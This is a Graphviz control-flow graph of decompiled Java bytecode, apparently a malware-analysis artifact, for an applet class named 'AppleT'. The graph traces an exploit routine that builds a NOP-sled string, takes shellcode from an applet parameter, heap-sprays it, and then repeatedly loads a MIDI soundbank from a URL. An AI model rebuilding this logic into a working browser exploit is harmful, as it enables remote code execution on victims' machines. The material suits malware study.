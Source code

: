 digraph "" {
    "r0 := @this: AppleT"
    "staticinvoke <AppleT: java.lang.String version_detect()>"
    "r0 := @this: AppleT"->"staticinvoke <AppleT: java.lang.String version_detect()>";
    "store.r r1"
    "staticinvoke <AppleT: java.lang.String version_detect()>"->"store.r r1";
    "new java.lang.StringBuilder"
    "store.r r1"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"9\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"9\"";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "push \"9\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"9\"";
    "push \"9\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0\"";
    "push \"0\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r19"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r19";
    "load.r r1"
    "store.r r19"->"load.r r1";
    "push \"end\""
    "load.r r1"->"push \"end\"";
    "ifcmpeq.r return"
    "push \"end\""->"ifcmpeq.r return";
    "load.r r0"
    "ifcmpeq.r return"->"load.r r0";
    "load.r r0"->"load.r r0";
    "push \"sc\""
    "load.r r0"->"push \"sc\"";
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"
    "push \"sc\""->"virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>";
    "load.r r19"
    "virtualinvoke <AppleT: java.lang.String getParameter(java.lang.String)>"->"load.r r19";
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"
    "load.r r19"->"virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "pop"
    "virtualinvoke <AppleT: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"pop";
    "new java.net.URL"
    "pop"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r0"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r0";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r0"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "return"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"return";
}
